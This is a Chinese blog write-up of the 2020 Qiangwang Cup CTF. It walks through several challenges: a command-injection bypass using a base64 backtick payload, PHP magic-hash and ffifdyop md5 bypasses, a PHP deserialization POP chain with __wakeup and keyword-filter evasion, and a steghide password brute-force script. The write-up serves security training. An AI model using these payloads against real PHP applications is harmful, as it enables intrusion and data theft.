<!--yml
category: 未分类
date: 2022-04-26 14:29:25
-->

# CTF解题-2020年强网杯参赛WriteUp_Tr0e的博客-CSDN博客_ctf解题赛

> 来源：[https://blog.csdn.net/weixin_39190897/article/details/108287362](https://blog.csdn.net/weixin_39190897/article/details/108287362)

# 前言

2020年8月22日9:00 - 8月23日21:00，参加（划水）了历时36小时的第四届“强网杯”全国网络安全竞赛线上赛。


第一次参加CTF比赛，不可思议（成功傍大佬）地从1800+支队伍中以前10%的排名获得“优胜奖”（成功参与奖），故骄傲（厚脸皮）地记录下比赛wp……

# 强网先锋

## 主动



1、进入网址，给出后台php源码，发现是个代码审计的题：


2、通过参数拼接命令，发现存在任意命令执行漏洞：


3、进一步查看本路径下的文件：



后台但是过滤了flag关键字，无法直接读取，那么就需要想办法绕过关键字过滤。

**【方法1】Base64编码绕过**

使用 bash64 编码命令（`cat ./flag.php`）进行绕过，最终PayLoad：

```
?id=1;cat `echo 'Li9mbGFnLnBocAo=' | base64 -d`： 
```

发送请求后查看源码：



> 【原理】 反引号在Linux的命令行中起着命令替换的作用。命令替换是指shell能够将一个命令的标准输出插在一个命令行中任何位置，即完成引用命令的执行，将其结果替换出来。也就是说会将反引号里面 base64 编码进行解码后的命令执行并输出结果返回到命令中。这样即可绕过限制。

**【方法2】利用变量去绕过**

通过变量赋值，再进行拼接，即可进行绕过，payload：

```
?ip=1;a=fl;b=ag;cat $a$b.php 
```

执行请求后查看网页源码：



## FunHash



1、访问网页，发现是后台源码，又是php代码审计：


2、先看 **level 1** 的绕过：PHP在处理哈希字符串时，会利用`”!=”`或`”==”`来对哈希值进行比较，**它把每一个以”0E”开头的哈希值都解释为0**，所以如果两个不同的密码经过哈希以后，其哈希值都是以”0E”开头的，那么PHP将会认为他们相同，都是0。故执行以下php脚本：



执行结果如下：



3、 再来看看 **level 2** 的绕过：php处理哈希函数时，如果传入的两个参数不是字符串，而是数组，md5()函数无法解出其数值，而且不会报错，就会得到`===`强比较的值相等；

4、最后看看 **level 3** 的绕过：ffifdyop 这个字符串被 md5 哈希了之后会变成 276f722736c95d99e921722cf9ed621c，而 Mysql 刚好又会把 hex 转成 ASCII 解释，这个字符串前几位刚好是`' or '6`，因此拼接之后的形式是`select * from 'admin' where password='' or '6xxxxx'`，等价于 or 一个永真式，因此相当于万能密码，可以绕过 md5() 函数。

5、 最终PayLoad：

```
?hash1=0e251288019&hash2[]=111&hash3[]=222&hash4=ffifdyop 
```

获得Flag如下：



## Web辅助


下载完附件，是php代码审计，给出了四个php源码文件：



先来看看源码：

**（1）index.php**

获取我们传入的username和password，并将其序列化储存：


**（2）common.php**

这里面的 read，write 函数有与`'\0\0', chr(0)."".chr(0)`相关的替换操作，还有一个check()函数对我们的序列化的内容进行检查，判断是否存在关键字name，这也是需要绕过的一个地方：


**（3）play.php**

在写入序列化的内容之后，访问play.php，如果我们的操作通过了check，然后经过了read的替换操作之后，便会进行反序列化操作：


**（4）class.php**

这里存在着各种类，也是我们构造pop链的关键，我们的目的是为了触发最后的`cat /flag` 命令：


**本题解题的核心：**

*   POP链的构造
*   __wakeup的绕过
*   关键字“name”检测绕过
*   反序列化字符串逃逸

题目中关键函数释义：

| 方法 | 解释 |
| --- | --- |
| __construct | 构造函数，具有构造函数的类会在每次创建新对象时先调用此方法 |
| __destruct | 析构函数，析构函数会在到某个对象的所有引用都被删除或者当对象被显式销毁时执行 |
| wakeup | unserialize() 会检查是否存在一个 wakeup() 方法。如果存在，则会先调用 |
| invoke | **当尝试以调用函数的方式调用一个对象时**，**invoke() 方法会被自动调用** |
| stristr() | 搜索字符串在另一字符串中的第一次出现，并默认返回字符串的后面剩余部分 |
| __toString() | 用于一个类被当成字符串时应怎样回应 |

**POP链**

POP链：如果我们需要触发的关键代码在一个类的普通方法中，例如本题的 `system('cat /flag')` 在jungle类中的KS方法中，这个时候我们可以通过相同的函数名将类的属性和敏感函数的属性联系起来。

**POP链的构造**

这里涉及到三个类，topsolo、midsolo、jungle，其中观察到topsolo类中的TP方法中，使用了`$name()`，如果我们将一个对象赋值给`$name`，这里便是以调用函数的方式调用了一个对象，此时会**触发invoke方法，而invoke方法存在于midsolo中**，invoke()会触发 Gank 方法，执行了 stristr 操作。



我们的最终目的是要触发 jungle 类中的KS方法，从而`cat /flag`，而触发KS方法得先触发 __toString 方法，一般来说，在我们使用 echo 输出对象时便会触发，例如：

```
<?php
class test{
    function __toString(){
        echo "__toString()";
        return "";
    }
}
$a = new test();
echo $a; 
```

在common.php中，我们并没有看到有echo一个类的操作，但是 class.php 有一个`stristr($this->name, 'Yasuo')`的操作，我们来看一下：

```
<?php
class test{
    function __toString(){
        echo "__toString()";
        return "";
    }
}
$a = new test();
stristr($a,'name'); 
```

所以整个POP链已经构成了:

```
topsolo->__destruct()->TP()->$name()->midsolo->__invoke()->Gank()->stristr()->jungle->__toString()->KS()->syttem('cat /flag') 
```

也就是：

```
<?php
class topsolo{
    protected $name;
    public function __construct($name = 'Riven'){
        $this->name = $name;
    }
}
class midsolo{
    protected $name;
    public function __construct($name){
        $this->name = $name;
    }
}
class jungle{
    protected $name = "";
}
$a = new topsolo(new midsolo(new jungle()));
$exp = serialize($a);
var_dump(urlencode($exp));
?>

输出：
O%3A7%3A%22topsolo%22%3A1%3A%7Bs%3A7%3A%22%00%2A%00name%22%3BO%3A7%3A%22midsolo%22%3A1%3A%7Bs%3A7%3A%22%00%2A%00name%22%3BO%3A6%3A%22jungle%22%3A1%3A%7Bs%3A7%3A%22%00%2A%00name%22%3Bs%3A0%3A%22%22%3B%7D%7D%7D 
```

在 midsolo 中 wakeup 需要绕过，老套路了：**序列化字符串中表示对象属性个数的值大于真实的属性个数时会跳过 wakeup 的执行**，这里我将1改为2：

```
O%3A7%3A%22topsolo%22%3A1%3A%7Bs%3A7%3A%22%00%2A%00name%22%3BO%3A7%3A%22midsolo%22%3A2%3A%7Bs%3A7%3A%22%00%2A%00name%22%3BO%3A6%3A%22jungle%22%3A1%3A%7Bs%3A7%3A%22%00%2A%00name%22%3Bs%3A0%3A%22%22%3B%7D%7D%7D
O:7:"topsolo":1:{s:7:"\000*\000name";O:7:"midsolo":2:{s:7:"\000*\000name";O:6:"jungle":1:{s:7:"\000*\000name";s:0:"";}}} 
```

注意还得对关键字“name”的检测进行绕过：

```
···
function check($data)
{
if(stristr($data, 'name')!==False){
die("Name Pass\n");
    }
else{
return $data;
    }
}
··· 
```

这里使用十六进制绕过\6e\61\6d\65，并将s改为S：

```
O%3A7%3A%22topsolo%22%3A1%3A%7BS%3A7%3A%22%00%2A%00\6e\61\6d\65%22%3BO%3A7%3A%22midsolo%22%3A2%3A%7BS%3A7%3A%22%00%2A%00\6e\61\6d\65%22%3BO%3A6%3A%22jungle%22%3A1%3A%7BS%3A7%3A%22%00%2A%00\6e\61\6d\65%22%3Bs%3A0%3A%22%22%3B%7D%7D%7D 
```

**字符串逃逸**

访问index.php，传入数值，得到序列化内容：

```
O:6:"player":3:{s:7:"\0*\0user";s:0:"";s:7:"\0*\0pass";s:126:"O:7:"topsolo":1:{S:7:"\0*\0\6e\61\6d\65";O:7:"midsolo":2:{S:7:"\0*\0\6e\61\6d\65";O:6:"jungle":1:{S:7:"\0*\0\6e\61\6d\65";s:0:"";}}}";s:8:"\0*\0admin";i:0;} 
```

可以看到对象topsolo，midsolo被s:102，所包裹，我们要做的就是题目环境本身的替换字符操作从而达到对象topsolo，midsolo从引号的包裹中逃逸出来：

```
···
function read($data){
    $data = str_replace('\0*\0', chr(0)."*".chr(0), $data);
    var_dump($data);
return $data;
}
function write($data){
    $data = str_replace(chr(0)."*".chr(0), '\0*\0', $data);
return $data;
}
··· 
```

在反序列化操作前，有个read的替换操作，字符数量从5位变成3位，合理构造username的长度，经过了read的替换操作后，最后将`";s:7:"\0\0pass";s:126`吃掉，需要吃掉的长度为23，因为5->3，所以得为2的倍数，需要在password中再填充一个字符C，变成24位，所以我们一共需要构造12个\0\0来进行username填充，得到username：

```
username=\0*\0\0*\0\0*\0\0*\0\0*\0\0*\0\0*\0\0*\0\0*\0\0*\0\0*\0\0*\0 
```

在password中补上被吃掉的pass部分，构造password的提交内容：

```
 password=C";s:7:"\0*\0pass";O%3A7%3A%22topsolo%22%3A1%3A%7BS%3A7%3A%22%00%2A%00\6e\61\6d\65%22%3BO%3A7%3A%22midsolo%22%3A2%3A%7BS%3A7%3A%22%00%2A%00\6e\61\6d\65%22%3BO%3A6%3A%22jungle%22%3A1%3A%7BS%3A7%3A%22%00%2A%00\6e\61\6d\65%22%3Bs%3A0%3A%22%22%3B%7D%7D%7D 
```

最后提交payload：

```
?username=\0*\0\0*\0\0*\0\0*\0\0*\0\0*\0\0*\0\0*\0\0*\0\0*\0\0*\0\0*\0&password=C";s:7:"\0*\0pass";O%3A7%3A%22topsolo%22%3A1%3A%7BS%3A7%3A%22%00%2A%00\6e\61\6d\65%22%3BO%3A7%3A%22midsolo%22%3A2%3A%7BS%3A7%3A%22%00%2A%00\6e\61\6d\65%22%3BO%3A6%3A%22jungle%22%3A1%3A%7BS%3A7%3A%22%00%2A%00\6e\61\6d\65%22%3Bs%3A0%3A%22%22%3B%7D%7D%7D 
```

然后访问 play.php 即可得到flag：



## Upload

下载题目附件，是一个数据包文件：


1、使用WireShark打开查看：


2、过滤查看 HTTP 数据流，追踪 HTTP 流发现 上传图片的请求：


3、在WireShark使用 “文件 - 导出对象 - HTTP…" 功能将文件保存下来：


得到两个文件：


4、查看 `%5c` 文件，获得提示 steghide 隐藏：


5、steghide.php 用 notepad++ 打开：


去掉前面这四行，保存修改后缀为 jpg 或者 png 都行，得到如下图：


【备注】获得图片的方法也可以找到 JPEG File Interchange Format 右键选择“导出分组字节流”，后缀为jpg，就可以看见一张图片了：


6、接着根据提示把照片丢进 kali 使用 steghide工具，输入`steghide info XXX.jpg`命令提取隐藏信息，发现需要输入密码：


7、需要进行密码爆破，找到一个爆破 steghide 密码 sh脚本：

```
#!/bin/bash
for line in `cat $2`;do
    steghide extract -sf $1 -p $line > /dev/null 2>&1
    if [[ $? -eq 0 ]];then
        echo 'password is: '$line
        exit
    fi  
done 
```

8、本题是个弱口令：123456，执行命令`steghide extract -sf XXX.jpg`然后输入密码，得到flag.txt：


Steghide 是一个可以将文件隐藏到图片或音频中的工具，其使用如下：

| 目的 | 命令 |
| --- | --- |
| Liunx安装 | apt-get install steghide |
| 隐藏文件 | steghide embed -cf 1.jpg（图片文件载体） -ef 1.txt（待隐藏文件） |
| 查看图片中嵌入的文件信息 | steghide info 1.jpg |
| 提取图片中隐藏的文件 | steghide extract -sf 1.jpg |

# 总结

此次参加CTF比赛，最大的感受就是意识到自己有多菜……被各路大佬吊打。另外感谢队友36小时里的坚持！希望能在网安这条路上越走越远，日益强大！Fighting~